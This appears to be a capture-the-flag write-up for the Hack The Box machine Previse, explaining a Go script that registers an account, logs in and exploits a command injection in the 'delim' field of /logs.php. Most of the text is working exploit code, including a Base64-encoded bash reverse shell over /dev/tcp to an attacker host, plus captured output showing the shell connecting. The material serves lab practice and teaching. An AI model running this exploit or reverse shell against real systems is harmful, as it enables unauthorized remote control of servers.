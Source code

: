 # Hack The Box. Machines. Previse

Machine write-up: https://7rocky.github.io/en/htb/previse

### `foothold.go`

This Go program is used to automate the process of getting a reverse shell on machine Previse.

For that, the program does the following tasks:

1. Register an account with a random username and password
2. Login with the account created
3. Exploit a command injection vulnerability to launch the reverse shell

This process is clearly written in the `main` function:

```go
func main() {
	lhost, lport := os.Args[1], os.Args[2]
	username, password := randString(10), randString(10)
	fmt.Printf("[+] Creating username: '%s', with password: '%s'\n", username, password)

	register(username, password)
	fmt.Println("[*] Registration successful")

	cookie := login(username, password)
	fmt.Println("[*] Login successful. Cookie:", cookie)

	sendRevShell(cookie, lhost, lport)
	fmt.Println("[!] Sent reverse shell. Check your nc listener")
}
```

This machine has a misconfiguration on redirects. The server sends the response body even though it is redirecting to `/login.php` (302 Found).

To avoid redirections, we must configure `http.Client` in Go as follows:

```go
var httpClient = &http.Client{
	CheckRedirect: func(req *http.Request, via []*http.Request) error {
		return http.ErrUseLastResponse
	},
	Timeout: time.Second,
}
```

The `Timeout` property is set to exit when the reverse shell gets connected.

Every request in this program is a POST request, which is wrapped on a function called `doPost`:

```go
func doPost(dir, data, cookie string) string {
	req, _ := http.NewRequest("POST", BASE_URL+dir, bytes.NewBufferString(data))
	req.Header.Set("Content-Type", "application/x-www-form-urlencoded")

	if cookie != "" {
		req.Header.Set("Cookie", cookie)
	}

	res, err := httpClient.Do(req)

	if err != nil || len(res.Header["Set-Cookie"]) == 0 {
		return ""
	}

	return res.Header["Set-Cookie"][0]
}
```

If there is a cookie, then the cookie is set on the Cookie header. If there is an error (`http.Client.Timeout` for the reverse shell) of if there is no cookie set by the server (Set-Cookie header), then the function returns an empty string. And otherwise, the function returns the cookie set by the server (namely, after the login process).

The functions `register` and `login` are pretty similar:

```go
func register(username, password string) string {
	data := fmt.Sprintf("username=%[1]s&password=%[2]s&confirm=%[2]s", username, password)
	return doPost("/accounts.php", data, "")
}

func login(username, password string) string {
	data := fmt.Sprintf("username=%s&password=%s", username, password)
	return doPost("/login.php", data, "")
}
```

On `register`, the password is specified twice because of confirmation.

The random strings are generated using `randString`, where `CHARS` are all numbers and letters:

```go
func randString(n int) string {
	bytes := make([]byte, n)

	for i := range bytes {
		bytes[i] = CHARS[rand.Intn(len(CHARS))]
	}

	return string(bytes)
}
```

Finally, `sendRevShell` uses `formatRevShell` to encode the payload in Base64, because it usually works most of the time:

```go
func formatRevShell(lhost, lport string) string {
	payload := fmt.Sprintf("bash  -i >& /dev/tcp/%s/%s 0>&1", lhost, lport)
	return base64.StdEncoding.EncodeToString([]byte(payload))
}

func sendRevShell(cookie, lhost, lport string) {
	data := fmt.Sprintf("delim=tab; echo %s | base64 -d | bash", formatRevShell(lhost, lport))
	doPost("/logs.php", data, cookie)
}
```

If we run the program, as follows, we will get a reverse shell using `nc`:

```console
$ go run foothold.go 10.10.17.44 4444
[+] Creating username: 'aBwbf8GZPk', with password: 'LqsgiuEoyV'
[*] Registration successful
[*] Login successful. Cookie: PHPSESSID=t19n77eh9qt1ui2unipsoa6j0b; path=/
[!] Sent reverse shell. Check your nc listener
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.104.
Ncat: Connection from 10.10.11.104:53284.
bash: cannot set terminal process group (1418): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ 
```
